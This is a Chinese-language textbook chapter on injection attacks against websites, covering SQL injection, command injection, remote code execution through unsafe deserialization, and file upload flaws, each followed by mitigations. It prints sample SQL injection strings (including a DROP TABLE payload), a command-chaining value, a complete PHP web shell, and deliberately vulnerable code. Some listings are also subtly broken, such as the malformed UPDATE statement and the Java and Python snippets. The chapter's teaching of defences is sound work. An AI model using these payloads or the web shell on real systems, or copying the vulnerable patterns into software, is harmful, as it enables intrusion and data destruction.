


# 第六章：**注入攻击**


现在你已经掌握了互联网的基本工作原理，接下来我们将重点讨论特定的漏洞和黑客利用这些漏洞的方式。本章介绍的是*注入攻击*，即攻击者将外部代码注入应用程序，试图控制应用程序或读取敏感数据。

记住，互联网是一个*客户端-服务器架构*的例子，这意味着一个网页服务器同时处理来自多个客户端的连接。大多数客户端是网页浏览器，负责在用户浏览网站时生成 HTTP 请求并发送给网页服务器。网页服务器则返回包含 HTML 的 HTTP 响应，这些 HTML 构成了网站页面的内容。

由于网页服务器控制着网站的内容，服务器端代码自然期望发生特定类型的用户交互，因此期望浏览器生成特定类型的 HTTP 请求。例如，服务器期望每次用户点击链接时看到一个`GET`请求指向一个新 URL，或者在用户输入登录凭证并点击提交时看到一个`POST`请求。

然而，浏览器完全有可能生成意外的 HTTP 请求发送给服务器。此外，网页服务器也乐于接受来自任何类型客户端的 HTTP 请求，而不仅仅是浏览器。配备 HTTP 客户端库的程序员可以编写脚本，向互联网上的任意 URL 发送请求。我们在第一章中回顾的黑客工具就是这样做的。

服务器端代码无法可靠地判断是脚本还是浏览器生成了 HTTP 请求，因为无论客户端如何，HTTP 请求的内容都是无法区分的。服务器能做的最好的事情就是检查`User-Agent`头部，它*应该*描述生成请求的*代理*类型，但脚本和黑客工具通常会*伪造*这个头部的内容，使其与浏览器发送的请求相匹配。

了解了这些，黑客攻击网站时通常会在 HTTP 请求中传递恶意代码，以欺骗服务器执行这些代码。这就是对网站进行注入攻击的基础。

注入攻击在互联网上极为常见，如果成功，可能会造成毁灭性的影响。作为一名网页开发者，你需要了解它们可能发生的所有方式以及如何防范它们。在编写网站代码时，考虑 HTTP 请求中可能会出现的内容，而不仅仅是你期望出现的内容非常重要。本章将探讨四种类型的注入攻击：SQL 注入攻击、命令注入攻击、远程代码执行攻击和利用文件上传漏洞的攻击。

### SQL 注入

*SQL 注入* 攻击针对使用底层 SQL 数据库的网站，这些网站以不安全的方式构建数据查询。SQL 注入攻击对网站构成了最大的风险之一，因为 SQL 数据库非常普遍。这一点在 2008 年得到了证明，当时黑客从 Heartland Payment Systems 偷取了 1.3 亿张信用卡号码。Heartland Payment Systems 是一家存储信用卡信息并为商户处理支付的支付处理公司。黑客通过 SQL 注入攻击访问了处理支付数据的 Web 服务器，这对依赖信息安全保障进行业务的公司来说是一次灾难。

让我们首先回顾一下 SQL 数据库是如何工作的，这样我们就能深入理解 SQL 注入是如何发生的，以及如何阻止它。

#### *什么是 SQL？*

*结构化查询语言*，或称*SQL*，用于从关系型数据库中提取数据和数据结构。关系型数据库将数据存储在表格中；表中的每一行是一个数据项（例如，用户或正在销售的产品）。SQL 语法允许像 Web 服务器这样的应用程序通过 `INSERT` 语句将行添加到数据库中，通过 `SELECT` 语句读取行，通过 `UPDATE` 语句更新行，通过 `DELETE` 语句删除行。

考虑一下当你在网站上注册时，Web 服务器在后台可能执行的 SQL 语句，如清单 6-1 所示。

```
❶ INSERT INTO users (email, encrypted_password)
   VALUES ('billy@gmail.com', '$10$WMT9Y')
❷ SELECT * FROM users WHERE email = 'billy@gmail.com'
   AND encrypted_password = '$10$WMT9Y'
❸ UPDATE USERS users encrypted_password ='3D$MW$10Z'
   WHERE email='billy@gmail.com'
❹ DELETE FROM users WHERE email = 'billy@gmail.com'
```

*清单 6-1：用户与网站交互时 Web 服务器可能执行的典型 SQL 语句*

SQL 数据库通常在 `users` 表中存储关于网站用户的信息。当用户首次注册并选择用户名和密码时，Web 服务器会在数据库上执行 `INSERT` 语句，以在 `users` 表中创建一行 ❶。下次用户登录网站时，Web 服务器会执行 `SELECT` 语句，尝试在 `users` 表中查找对应的行 ❷。如果用户更改密码，Web 服务器会执行 `UPDATE` 语句，更新 `users` 表中相应的行 ❸。最后，如果用户关闭账户，网站可能会执行 `DELETE` 语句，将其行从 `users` 表中删除 ❹。

对于每一次交互，Web 服务器负责提取 HTTP 请求中的一部分（例如，登录表单中输入的用户名和密码），并构建一个 SQL 语句来对数据库执行操作。该语句的实际执行通过*数据库驱动程序*完成，这是一个专门用于与数据库通信的代码库。

#### *SQL 注入攻击的结构*

SQL 注入攻击发生在 Web 服务器以不安全的方式构建它传递给数据库驱动程序的 SQL 语句时。这允许攻击者通过 HTTP 请求传递参数，从而导致驱动程序执行开发者未打算进行的操作。

让我们看看一个不安全构造的 SQL 语句，它会在用户尝试登录网站时从数据库读取用户数据，如 列表 6-2 中的 Java 代码所示。

```
Connection connection = DriverManager.getConnection(DB_URL, DB_USER, DB_PASSWORD);
Statement statement = connection.createStatement();
String sql = "SELECT * FROM users WHERE email='" + email +
             "' AND encrypted_password='" + password + "'";
statement.executeQuery(sql);
```

*列表 6-2：在登录尝试期间从数据库读取用户数据的不安全方法*

这个 SQL 语句的构造不安全！这个片段使用从 HTTP 请求中获取的 `email` 和 `password` 参数，并将它们直接插入到 SQL 语句中。因为这些参数没有检查 SQL 控制字符（例如 `'`），这些字符会改变 SQL 语句的含义，黑客可以构造输入绕过网站的身份验证系统。

列表 6-3 显示了一个示例。在这个示例中，攻击者将用户 `email` 参数传递为 `billy@gmail.com'--`，这会提前终止 SQL 语句，并导致密码检查逻辑不被执行：

```
statement.executeQuery(
  "SELECT * FROM users WHERE email='billy@gmail.com'❶--' AND encrypted_password='Z$DSA92H0'❷");
```

*列表 6-3：使用 SQL 注入绕过身份验证*

数据库驱动程序只执行 SQL 语句❶，并忽略之后的所有内容❷。在这种 SQL 注入攻击中，单引号字符 (`'`) 提前关闭了电子邮件参数，而 SQL 注释语法 (`--`) 让数据库驱动程序忽略执行密码检查的语句的结尾。这个 SQL 语句允许攻击者以 *任何* 用户的身份登录，而无需知道他们的密码！攻击者只需要在登录表单中的用户电子邮件地址添加 `'` 和 `--` 字符。

这是一个相对简单的 SQL 注入攻击示例。更高级的攻击可能会导致数据库驱动程序在数据库上执行额外的命令。列表 6-4 显示了一个 SQL 注入攻击，它执行 `DROP` 命令，完全删除 `users` 表，从而破坏数据库。

```
statement.executeQuery("SELECT * FROM users WHERE email='billy@gmail.com';❶
DROP TABLE users;❷--' AND encrypted_password='Z$DSA92H0'");
```

*列表 6-4：SQL 注入攻击正在进行中*

在这种情况下，攻击者将电子邮件参数传递为 `billy@gmail.com'; DROP TABLE users;--`。分号字符（`;`）终止了第一个 SQL 语句❶，然后攻击者插入了一个附加的破坏性语句❷。数据库驱动程序会执行这两个语句，导致你的数据库处于损坏状态！

如果你的网站容易受到 SQL 注入攻击，攻击者通常可以对你的数据库执行任意的 SQL 语句，从而绕过身份验证；随意读取、下载和删除数据；甚至将恶意的 JavaScript 注入到呈现给用户的页面中。为了扫描网站的 SQL 注入漏洞，可以使用像 Metasploit 这样的黑客工具来爬取网站并测试 HTTP 参数中的潜在漏洞。如果你的网站易受 SQL 注入攻击，可以确定最终会有人利用这一漏洞。

#### *缓解措施 1：使用参数化语句*

为了防止 SQL 注入攻击，你的代码需要使用绑定参数构建 SQL 字符串。*绑定参数* 是占位符字符，数据库驱动程序将安全地将其替换为一些提供的输入——如 列表 6-1 中显示的电子邮件或密码值。包含绑定参数的 SQL 语句称为 *参数化语句*。

SQL 注入攻击利用在 SQL 语句中具有特殊意义的“控制字符”来“跳出”上下文并改变 SQL 语句的整体语义。当你使用绑定参数时，这些控制字符会被“转义字符”前缀标记，告诉数据库不要将后续字符视为控制字符。这种转义控制字符的方式有效地化解了潜在的注入攻击。

使用绑定参数安全构造的 SQL 语句应该像 列表 6-5 中所示。

```
   Connection connection = DriverManager.getConnection(DB_URL, DB_USER, DB_PASSWORD);
   Statement statement = connection.createStatement();
❶ String sql = "SELECT * FROM users WHERE email = ? and encrypted_password = ?";
❷ statement.executeQuery(sql, email, password);
```

*列表 6-5：使用绑定参数防止 SQL 注入*

这段代码使用 `?` 作为绑定参数 ❶ 以参数化形式构造 SQL 查询。然后，代码 *绑定* 每个参数的输入值到语句 ❷，请求数据库驱动程序将参数值插入 SQL 语句，同时安全地处理任何控制字符。如果攻击者尝试使用 列表 6-4 中概述的方法，通过传入用户名 `billy@email.com'--` 来攻击这段代码，你安全构造的 SQL 语句将化解攻击，如 列表 6-6 所示。

```
statement.executeQuery(
  "SELECT * FROM users WHERE email = ? AND encrypted_password = ?",
  "billy@email.com'--,",
  "Z$DSA92H0");
```

*列表 6-6：SQL 注入攻击已被化解。*

因为数据库驱动程序确保不会过早终止 SQL 语句，所以这个 `SELECT` 语句将安全地返回 *没有* 用户，攻击应该会失败。参数化语句确保数据库驱动程序将所有控制字符（如 `'`、`--` 和 `;`）当作 SQL 语句的 *输入*，而不是 SQL 语句的一部分。如果你不确定你的网站是否使用了参数化语句，赶紧去检查一下！SQL 注入可能是你的网站面临的最大风险。

类似的注入攻击可能发生在每当 Web 服务器通过在后台的本地语言中构建语句与独立后台通信时。这包括像 MongoDB 和 Apache Cassandra 这样的 NoSQL 数据库，像 Redis 和 Memcached 这样的分布式缓存，以及实现轻量级目录访问协议（LDAP）的目录。与这些平台通信的库有自己实现的绑定参数，因此要确保理解它们的工作原理，并在代码中使用它们。

#### *缓解措施 2：使用对象关系映射*

许多 Web 服务器库和框架将 SQL 语句的显式构建封装起来，并允许你通过使用对象关系映射来访问数据对象。*对象关系映射（ORM）* 库将数据库表中的行映射到内存中的代码对象，这意味着开发者通常不需要编写自己的 SQL 语句来读取和更新数据库。这种架构在大多数情况下能防止 SQL 注入攻击，但如果使用自定义 SQL 语句，它仍然可能会受到攻击，因此了解 ORM 如何在后台工作非常重要。

人们最熟悉的 ORM 可能是 Ruby on Rails 的 ActiveRecord 框架。列表 6-7 显示了一行简单的 Rails 代码，它以安全的方式查找用户。

```
User.find_by(email: "billy@gmail.com")
```

*列表 6-7：使用受保护的方式通过电子邮件查找用户的 Ruby on Rails 代码*

因为 ORM 在后台使用绑定参数，它们在大多数情况下能防止注入攻击。然而，大多数 ORM 也有后门，允许开发者在需要时编写原始 SQL。如果你使用这些类型的功能，需要小心构造 SQL 语句。例如，列表 6-8 显示了易受注入攻击的 Rails 代码。

```
def find_user(email, password)
  User.where("email = '" + email + "' and encrypted_password = '" + password + "'")
end
```

*列表 6-8：易受注入攻击的 Ruby on Rails 代码*

由于这段代码将部分 SQL 语句作为原始字符串传递，攻击者可以传递特殊字符来操控 Rails 生成的 SQL 语句。如果攻击者能将 `password` 变量设置为 `' OR 1=1`，他们就可以运行一条 SQL 语句，禁用密码检查，如 列表 6-9 所示。

```
SELECT * FROM users WHERE email='billy@gmail.com' AND encrypted_password ='' OR 1=1
```

*列表 6-9：1=1 语句，显然为真，禁用密码检查。*

这条 SQL 语句的最后一部分禁用了密码检查，允许攻击者以该用户身份登录。你可以通过使用绑定参数，安全地调用 Rails 中的 `where` 函数，如 列表 6-10 所示。

```
def find_user(email, encrypted_password)
  User.where(["email = ? and encrypted_password = ?", email, encrypted_password])
end
```

*列表 6-10：安全使用 where 函数*

在这种情况下，ActiveRecord 框架会安全地处理攻击者在 `email` 或 `password` 参数中添加的任何 SQL 控制字符。

#### *奖励缓解：使用深度防御*

一般来说，你应该始终通过冗余机制来保护你的网站。逐行检查代码中的漏洞并不足够，你需要在每个层级上考虑并执行安全性，使得某一层级的失败可以通过其他策略得到缓解。这种方法被称为 *深度防御*。

想一想你如何保护你的家。最重要的防御措施是给所有门窗安装锁，但拥有入侵警报、监控摄像头、家庭保险，也许还有一只脾气暴躁的大狗，可以帮助你应对各种可能的情况。

在防止 SQL 注入方面，深度防御意味着使用绑定参数，但同时也采取额外措施，以减少攻击者*仍然*能够成功执行注入攻击的风险。接下来，我们来看一些缓解注入攻击风险的其他方法。

##### 最小权限原则

缓解注入攻击的另一种方法是遵循*最小权限原则*，要求每个进程和应用程序只能在执行其允许的功能时拥有必要的权限，不能更多。这意味着，如果攻击者将代码注入到你的 Web 服务器并攻击特定的软件组件，他们所能造成的危害仅限于该组件所允许的操作。

如果你的 Web 服务器与数据库交互，请确保它用来登录数据库的帐户对数据的权限是有限的。大多数网站只需要运行属于 SQL 子集的 SQL 语句，即*数据操作语言（DML）*，这包括我们之前讨论过的 `SELECT`、`INSERT`、`UPDATE` 和 `DELETE` 语句。

SQL 语言的一个子集称为*数据定义语言（DDL）*，它使用`CREATE`、`DROP`和`MODIFY`语句来创建、删除和修改数据库中的表结构。Web 服务器通常不需要权限来执行 DDL 语句，因此在运行时不要授予它们 DDL 权限集！将 Web 服务器的权限缩小到最小的 DML 权限集，可以减少攻击者在发现代码漏洞时所能造成的危害。

##### 盲注与非盲注 SQL 注入

黑客区分盲注和非盲注 SQL 注入攻击。如果你的网站错误信息泄露了敏感信息给客户端，例如`唯一约束被违反：此电子邮件地址在用户表中已存在`，这就是一种*非盲注* SQL 攻击。在这种情况下，攻击者会立刻收到反馈，知道他们在尝试攻击时的结果。

如果你将错误信息发送给客户端时更加通用，比如`无法找到此用户名和密码`或`发生了意外错误`，这就是一种*盲注* SQL 攻击。此场景意味着攻击者实际上是在“黑暗”中操作，信息较少，难以攻击。易受非盲注攻击的站点更容易被入侵，因此要避免在错误信息中泄露信息。

### 命令注入

另一种注入攻击类型是*命令注入*，攻击者可以利用它来攻击那些向底层操作系统发出不安全命令行调用的网站。如果你的 Web 应用程序进行命令行调用，确保构造命令字符串时采取安全措施。否则，攻击者可以构造 HTTP 请求，执行任意的操作系统命令，并接管你的应用程序。

对于许多编程语言来说，构建命令字符串以调用操作系统实际上是相当不寻常的。例如，Java 在虚拟机中运行，因此，尽管你*可以*通过使用`java.lang.Runtime`类调用操作系统，Java 应用程序通常设计为可在不同操作系统之间移植，因此依赖特定操作系统功能的可用性会违背其哲学。

命令行调用在解释型语言中更为常见。PHP 的设计遵循 Unix 哲学——程序应该专注于做一件事，并通过文本流相互通信——因此，PHP 应用程序通常通过命令行调用其他程序。同样，Python 和 Ruby 因其在脚本任务中的流行，简化了在操作系统级别执行命令的过程。

#### *命令注入攻击的结构*

如果你的网站使用命令行调用，请确保攻击者无法通过诱使 Web 服务器注入额外命令到执行调用中。例如，假设你有一个简单的网站，它执行`nslookup`来解析域名和 IP 地址。PHP 代码从 HTTP 请求中获取域名或 IP 地址，并构建如清单 6-11 所示的操作系统调用。

```
<?php
    if (isset($_GET['domain'])) {
        echo '<pre>';
        $domain = $_GET['domain']❶;
        $lookup = system("nslookup {$domain❷}");
        echo($lookup);
        echo '</pre>';
    }
?>
```

*清单 6-11：接收 HTTP 请求并构建操作系统调用的 PHP 代码*

`domain`参数在❶处从 HTTP 请求中提取。因为代码在构建命令字符串时没有转义`domain`参数❷，攻击者可以构造一个恶意 URL，并在末尾附加额外的命令，如图 6-1 所示。



*图 6-1：使用 URL 注入恶意命令*

在这里，攻击者发送一个值为`google.com && echo "HAXXED"`的 domain 参数，浏览器会对空格和非字母数字字符进行 URL 编码。Unix 中的`&&`语法用于连接多个命令。由于我们的 PHP 代码没有去除这样的控制字符，攻击者精心构造 HTTP 请求以附加额外的命令。在这种情况下，将执行两个独立的命令：预期的`nslookup`命令查询*google.com*，然后是*注入的*命令`echo "HAXXED"`。

在这种情况下，注入的命令是一个无害的`echo`命令，它仅仅在 HTTP 响应中打印出`"HAXXED"`。然而，攻击者可以利用这个漏洞在你的服务器上注入并执行他们选择的任何命令。只需稍加努力，他们就可以浏览文件系统、读取敏感信息，并危及整个应用程序。如果你的 Web 服务器允许命令行访问，攻击者将完全掌握系统的控制权，除非你采取有意的步骤来减少这种影响。

#### *缓解措施：转义控制字符*

与 SQL 注入类似，通过适当转义来自 HTTP 请求的输入可以防御命令注入。这意味着用安全的替代方案替换敏感的控制字符（例如我们示例中的`&`字符）。如何实现这取决于您使用的操作系统和编程语言。为了使列表 6-11 中的 PHP 代码更安全，我们只需使用`escapeshellarg`，如列表 6-12 所示。

```
<?php
    if (isset($_GET['domain'])) {
        echo '<pre>';
        $domain = escapeshellarg❶($_GET['domain']);
        $lookup = system("nslookup {$domain}");
        echo($lookup);
        echo '</pre>';
    }
?>
```

*列表 6-12：PHP 代码转义 HTTP 请求中的输入*

调用`escapeshellarg`❶确保攻击者无法通过`domain`参数注入额外的命令。

Python 和 Ruby 也可以防止潜在的命令注入攻击。

在 Python 中，应使用数组而不是字符串调用`call()`函数，以防止攻击者在末尾附加额外的命令，如列表 6-13 所示。

```
    from subprocess import call
    call(["nslookup", domain])
```

*列表 6-13：Python subprocess 模块中的 call 函数*

在 Ruby 中，`system()`函数执行命令行调用。请提供一个参数数组而不是字符串，以确保攻击者无法偷偷添加额外的命令，如列表 6-14 所示。

```
    system("nslookup", domain)
```

*列表 6-14：Ruby 中 system()函数*

与 SQL 注入类似，遵循最小权限原则也有助于限制成功命令注入攻击的影响。您的 Web 服务器进程应仅以所需的权限运行。例如，您应限制 Web 服务器进程可以读取和写入的目录。在 Linux 上，您可以使用`chroot`命令防止进程探索指定的根目录之外的内容。您还应通过配置防火墙和网络访问控制列表来限制 Web 服务器的网络访问。这些步骤将大大增加黑客利用命令注入漏洞的难度，因为即使他们可以执行命令，他们除了读取 Web 服务器运行目录中的文件外，什么都做不了。

### 远程代码执行

到目前为止，您已经看到在 Web 代码构建对数据库的调用（如 SQL 注入）或运行在操作系统上的调用（如命令注入）时可能存在的漏洞。在其他情况下，攻击者可能会注入恶意代码，以在 Web 服务器本身的语言中执行，这种策略称为*远程代码执行*。与我们之前讨论过的注入攻击相比，网站上的远程代码执行攻击虽然较少见，但同样危险。

#### *远程代码执行攻击的解剖*

攻击者可以通过发现特定类型 Web 服务器中的漏洞，进而创建*利用脚本*，以针对运行该 Web 服务器技术的网站。利用脚本会在 HTTP 请求的主体中加入恶意代码，并以某种方式对其进行编码，以便服务器在处理请求时读取并执行该代码。执行远程代码的攻击技巧差异很大。安全研究人员会分析常见 Web 服务器的代码库，寻找允许恶意代码注入的漏洞。

2013 年初，研究人员发现了 Ruby on Rails 中的一个漏洞，允许攻击者将自己的 Ruby 代码注入到服务器进程中。由于 Rails 框架会根据请求的`Content-Type`头自动解析请求，安全研究人员注意到，如果他们创建一个包含嵌入式 YAML 对象的 XML 请求（YAML 是一种常用于 Rails 社区存储配置数据的标记语言），他们可以欺骗解析过程执行任意代码。

#### *缓解措施：禁用反序列化期间的代码执行*

远程代码执行漏洞通常发生在 Web 服务器软件使用不安全的序列化时。*序列化*是将内存中的数据结构转换为二进制数据流的过程，通常用于将数据结构通过网络传递。*反序列化*是指在另一端发生的相反过程，即将二进制数据转换回数据结构。

序列化库存在于每个主要的编程语言中，并且被广泛使用。一些序列化库，例如 Rails 使用的 YAML 解析器，允许数据结构在重新初始化到内存时执行代码。如果你信任序列化数据的来源，这是一个有用的功能，但如果不信任，这可能会*非常*危险，因为它可能允许任意代码执行。

如果 Web 服务器使用反序列化来处理来自 HTTP 请求的数据，则需要通过禁用任何代码执行功能来解除任何序列化库的影响；否则，攻击者可能能够找到一种方法，将代码直接注入到 Web 服务器进程中。我们通常可以通过相关的配置设置禁用代码执行，从而让 Web 服务器软件在反序列化数据时不执行代码。

作为使用 Web 服务器构建网站的开发人员，而非编写 Web 服务器代码的开发人员，防止远程代码执行的关键通常是保持对安全公告的关注。你不太可能自己编写序列化库，因此要注意你的代码库中使用了哪些第三方序列化库。确保关闭代码中的主动代码执行功能，并密切关注 Web 服务器供应商发布的漏洞公告。

### 文件上传漏洞

本章我们将讨论的最后一种注入攻击，利用的是文件上传功能中的漏洞。网站使用*文件上传功能*有多种目的：允许用户为他们的个人资料或帖子添加图片、为消息添加附件、提交文件、与其他用户共享文档等等。浏览器通过内置的文件上传控件和 JavaScript API，使上传文件变得非常容易，用户可以将文件拖到网页上，并异步发送到服务器。

然而，浏览器在检查文件内容时并不特别谨慎。攻击者可以轻松地通过将恶意代码注入到上传的文件中，滥用文件上传功能。Web 服务器通常将上传的文件视为大型二进制数据块，因此攻击者可以非常轻松地上传恶意载荷，而不被 Web 服务器检测到。即使你的网站有 JavaScript 代码在上传之前检查文件内容，攻击者仍然可以编写脚本，直接将文件数据发送到服务器端的端点，绕过你在客户端设置的任何安全措施。

让我们看看攻击者通常是如何利用文件上传功能的，以便识别我们需要修补的各种安全漏洞。

#### *文件上传攻击的结构*

作为文件上传漏洞的一个示例，让我们看看攻击者如何可能滥用你网站的个人头像上传功能。攻击者首先编写一个小型*web shell*，这是一个简单的可执行脚本，它会从 HTTP 请求中获取一个参数，在命令行中执行，并输出结果。Web shell 是黑客用来尝试攻破 Web 服务器的常见工具。清单 6-15 展示了一个用 PHP 编写的 web shell 示例。

```
<?php
  if(isset($_REQUEST['cmd'])) {
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
  } else {
    echo "What is your bidding?";
  }
?>
```

*清单 6-15：用 PHP 语言编写的 web shell*

攻击者将这个脚本保存为 *hack.php* 并作为他们的个人资料“图片”上传到你的网站。操作系统通常将 PHP 文件视为*可执行*文件，这对于让此攻击得以成功至关重要。显然，一个以 *.php* 结尾的文件并不是一个有效的图片文件，但攻击者可以相当轻松地禁用上传过程中任何 JavaScript 文件类型检查。

一旦攻击者上传了他们的“图片”文件，他们的个人主页将显示一个缺失的图片图标，因为他们的个人头像已经损坏，实际上并不是一张图片。然而，此时他们已经达到了真正的目的：将 web shell 文件偷偷上传到你的服务器上，这意味着他们的恶意代码已经部署到你的网站，等待以某种方式执行。

由于 Web Shell 可通过公共 URL 访问，攻击者可能已创建了一个用于执行恶意代码的后门。如果你的服务器操作系统安装了 PHP 运行时，并且文件在上传过程中以可执行权限写入磁盘，攻击者可以通过调用与其个人资料图片对应的 URL，简单地传递命令来运行 Web Shell。

要执行命令注入攻击，黑客可以将一个 `cmd` 参数传递给 Web Shell，以在你的服务器上执行任意操作系统命令，如图 6-2 所示。



*图 6-2：如果你的文件上传功能存在漏洞，黑客可能利用 Web Shell 访问你的数据库凭据。*

在这种情况下，攻击者可以探索你的文件系统。攻击者利用你的文件上传功能，获得与命令注入攻击相同的操作系统访问权限。

#### *缓解措施*

你可以使用几种缓解措施来保护自己免受文件上传代码漏洞的影响。最重要的缓解措施是确保任何上传的文件无法作为代码执行。遵循深度防御原则，你还应该分析上传的文件，拒绝任何看起来有损坏或恶意的文件。

##### 缓解措施 1：将文件托管在安全的系统上

确保文件上传功能安全的首要方法是确保你的 Web 服务器将上传的文件视为惰性对象，而不是可执行对象。你可以通过将上传的文件托管在内容分发网络（CDN）中，如 Cloudflare 或 Akamai，来实现这一点，正如第四章中所描述的，这样可以将安全负担转移给第三方，由他们安全地存储你的文件。

CDN 也有其他与安全无关的好处。CDN 可以将文件极其快速地传送到浏览器，并且可以在上传时将其通过处理管道处理。许多 CDN 提供复杂的 JavaScript 上传小工具，你只需添加几行代码，就能提供像图片裁剪这样的额外功能。

如果因为某些原因 CDN 不是一个选项，你可以通过将上传的文件存储在云存储（例如 Amazon 简单存储服务或 S3）或专用的内容管理系统中来获得许多相同的好处。这两种方法都提供了安全存储，能够在文件上传时消除所有 Web Shell。（尽管，如果你托管自己的内容管理系统，你必须确保正确配置它。）

##### 缓解措施 2：确保上传的文件无法执行

如果无法使用 CDN 或内容管理系统，你需要采取与 CDN 或内容管理系统在后台执行相同的步骤来保护你的文件。这意味着确保所有文件都写入磁盘时没有可执行权限，将上传的文件分隔到特定的目录或分区（这样它们就不会与代码混合），并且*加固*你的服务器，只安装最基本的必需软件。（如果你不使用 PHP 引擎，请卸载它！）在上传文件时重命名文件也是个好主意，这样你就不会将带有危险扩展名的文件写入磁盘。

实现这些目标的方法取决于你所使用的托管技术、操作系统以及编程语言。例如，如果你在 Linux 上运行一个 Python Web 服务器，你可以通过使用 `os` 模块，在创建文件时设置文件权限，如 列表 6-16 所示。

```
import os
file_descriptor = os.open("/path/to/file", os.O_WRONLY | os.O_CREAT, 0o600)
with os.fdopen(open(file_descriptor, "wb")) as file_handle:
  file_handle.write(...)
```

*列表 6-16：在 Linux 上使用 Python 写入具有读写（但不可执行）权限的文件*

从操作系统中移除不需要的软件总是个好主意，因为这会减少黑客使用的工具。互联网安全中心（CIS）提供了预加固的操作系统镜像，作为良好的起点。这些镜像可以作为 Docker 镜像或在 Amazon Web Services Marketplace 中提供的 Amazon 机器镜像（AMI）使用。

##### 缓解措施 3：验证上传文件的内容

如果你上传的是已知文件类型，考虑在代码中添加一些文件类型检查。确保上传的 HTTP 请求中的 `Content-Type` 头与预期的文件类型相符，但要注意攻击者很容易伪造该头部。

在文件上传后验证文件类型是可能的，特别是对于图像文件，因此在服务器端代码中实现此功能是个好主意，如 列表 6-17 所示。不过，你的实际效果可能会有所不同；过去，一些聪明的黑客通过设计有效的有效载荷来渗透各种系统，这些有效载荷对多种文件格式都是有效的。

```
>>> import imghdr
>>> imghdr.what('/tmp/what_is_this.dat')
'gif'
```

*列表 6-17：在 Python 中读取文件头部以验证文件格式*

##### 缓解措施 4：运行防病毒软件

最后，如果你在容易感染病毒的服务器平台上运行（你好，Microsoft Windows！），确保你正在运行最新的防病毒软件。文件上传功能是病毒有效载荷的一个敞开的大门。

### 总结

在本章中，你学习了各种注入攻击，其中攻击者构造恶意 HTTP 请求以控制后端系统。

SQL 注入攻击利用了 Web 代码在与 SQL 数据库通信时没有安全构建 SQL 字符串的漏洞。你可以通过在与数据库驱动程序通信时使用绑定参数来减轻 SQL 注入攻击。

命令注入攻击利用了那些不安全地调用操作系统函数的代码。你可以通过正确使用绑定来同样防止命令注入。

远程代码执行漏洞允许黑客在网页服务器进程内执行漏洞利用代码，通常源自不安全的序列化库。确保密切关注你所使用的序列化库和网页服务器软件的任何安全公告。

文件上传功能如果在上传文件时赋予文件可执行权限，往往会导致命令注入攻击。确保将上传的文件写入第三方系统或具有适当权限的磁盘，并尽可能在上传时验证文件类型。

通过遵循最小权限原则，你可以降低所有类型的注入攻击的风险：进程和软件组件应当仅使用执行其分配任务所需的权限，而不是更多。这种方法能够减少攻击者注入有害代码时造成的损害。遵循最小权限原则的例子包括限制网页服务器进程的文件和网络访问权限，以及在有限权限的账户下连接到数据库。

在下一章中，你将了解黑客如何利用 JavaScript 漏洞攻击你的网页。
